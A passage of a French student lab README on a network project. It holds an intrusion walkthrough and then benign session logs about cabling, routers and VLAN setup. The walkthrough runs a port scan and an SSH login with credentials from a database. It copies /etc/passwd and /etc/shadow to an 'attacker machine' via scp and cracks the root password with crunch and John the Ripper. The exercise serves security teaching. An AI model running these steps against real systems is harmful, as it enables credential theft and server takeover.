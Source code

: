 * Vérifier que le serveur est accessible à distance (analyse des ports) :
```
nmap -6 https://{Adresse du serveur}
```

* Se connecter au serveur via `ssh` avec les identifiants récupérés dans la base de données :
```
ssh {Utilisateur}@{Adresse du serveur}
```

* Récupération des informations sur les utilisateurs :
```
scp /etc/passwd {Utilisateur pirate}@{Adresse machine pirate}:~/passwd
scp /etc/shadow {Utilisateur pirate}@{Adresse machine pirate}:~/shadow
```

### Cassage du mot de passe root

* Utilisation des commandes de l'utilitaire de John the Ripper.
```
unshadow ./passwd ./shadow | grep root > pass
```

* Création d'un dictionnaire (on sait que le mot de passe est la répétition d'un mot de 4 lettres deux fois) :
```
crunch 4 4 abcdefghijklmnopqrstuvwxyz > dico
sed -i 's/\(.*\)/\1\1/' dico
```

* Cassage du mot de passe :
```
/usr/sbin/john -w:dico pass
```

* Visualisation du mot de passe en clair après quelques minutes :
```
/usr/sbin/john --show pass
```

# Résumé des séances

## Jeudi 16/09/2021 10h-12h

**Tâches effectuées :**
* Plan d'adressage
* Architecture réseau
* Câblage des fibres

## Jeudi 23/09/2021 08h-12h

### Tâches effectuées :
* Câblage des câbles coaxiaux
* Configuration de base des trois routeurs
* Configuration du VLAN 530 sur les deux routeurs principaux
  * La communication avec le routeur en amont (`192.168.222.33`) est fonctionnelle
  * Le routeur répond correctement à la sollicitation ICMP par la commande PING

